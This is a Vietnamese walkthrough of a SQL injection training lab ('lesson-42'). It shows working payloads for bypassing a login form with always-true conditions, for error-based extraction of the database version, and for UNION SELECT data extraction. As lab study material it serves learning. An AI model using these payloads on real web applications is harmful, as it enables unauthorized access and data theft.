








# Những việc làm được với lesson-42
Việc check xem nó là dạng DB gì thì làm giống như những lesson trước. Ta sẽ sử dụng command `nmap`

Sau khi đăng nhập vào lesson-42


Bài này khi ta thấy màn hình đăng nhập này ta hãy thử bấm vào forgot và new user trước. Kết quả là không thể làm gì 





Có nghĩa là ta muốn injection thì phải injection tại đây. Có một số cách pass qua login mà ta đã làm lúc trước là cho nó giá trị luôn đúng. bằng `or` trong câu truy vấn. Ta cho giá trị user 

1. ERROR-BASE

Trong quá trình tìm cấu trúc của login luôn đúng thì tôi thấy rằng nó có báo lỗi chứng tỏ rằng ta có thể sử dụng được error base 

```
user : 1' OR 1 = 1
pass : 1' OR 1 = 1 
```



Cấu trúc của error base là 
```
user : 1' OR 1 = 1
pass : 1' and (SELECT 0 FROM (SELECT count(*), CONCAT((select @@version), 0x3a, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) -- +
```



2. Cấu trúc để pass qua login là 

```
user: 1' OR '1' = '1
pass: 1' OR '1' = '1
```



Sau khi login thành công. Ta thấy tên của user được in ra màn hình chứng tỏ rằng ta có thể sử dụng được union và select để kết hợp trích xuất dữ liệu mà khong cần sử dụng error-base 



3. Cấu trúc của union và select

```
user: 1' OR '1' = '1
pass: 1' union select 1,2,3 OR '1' = '1 
```



Tương tự ta sẽ lấy ra được version hay DB và các dữ liệu khác bằng group và nó sẽ nhanh hơn là error-base 


```
user: 1' OR '1' = '1
pass: 1' union select 1,@@version,3 OR '1' = '1 
```



Tương tự như thế ta có thể hiển thị và biết được nhiều dữ liệu cùng một lúc nhanh hơn error-base 